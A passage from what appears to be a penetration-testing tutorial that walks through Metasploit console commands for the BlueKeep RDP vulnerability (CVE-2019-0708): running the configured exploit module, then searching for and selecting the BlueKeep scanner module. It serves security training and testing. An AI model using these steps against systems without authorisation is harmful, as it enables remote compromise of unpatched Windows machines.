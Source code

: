    - **Explanation:** 
     - Sets the target IP address and payload.

5. **Run the Exploit:**
   - **Description:** Execute the BlueKeep exploit.
   - **Command:**
     ```bash
     run
     ```
   - **Example:**
     ```bash
     run
     ```

   - **Explanation:** 
     - Runs the configured exploit against the target.

#### **Using the BlueKeep Metasploit Auxiliary**

1. **Search for BlueKeep Auxiliary Module:**
   - **Description:** Find auxiliary modules related to BlueKeep.
   - **Command:**
     ```bash
     search bluekeep
     ```
   - **Example:**
     ```bash
     search bluekeep
     ```

   - **Explanation:** 
     - Lists auxiliary modules associated with BlueKeep.

2. **Use BlueKeep Auxiliary Module:**
   - **Description:** Select the BlueKeep auxiliary module for scanning.
   - **Command:**
     ```bash
     use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
     ```
   - **Example:**
     ```bash
     use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
     ```

   - **Explanation:** 
     - Chooses the auxiliary module for scanning BlueKeep vulnerability.

3. **Show Module Options:**
   - **Description:** Display available options for the BlueKeep auxiliary module.
   - **Command:**
     ```bash
     show options
     ```
   - **Example:**
     ```bash
     show options
     ```
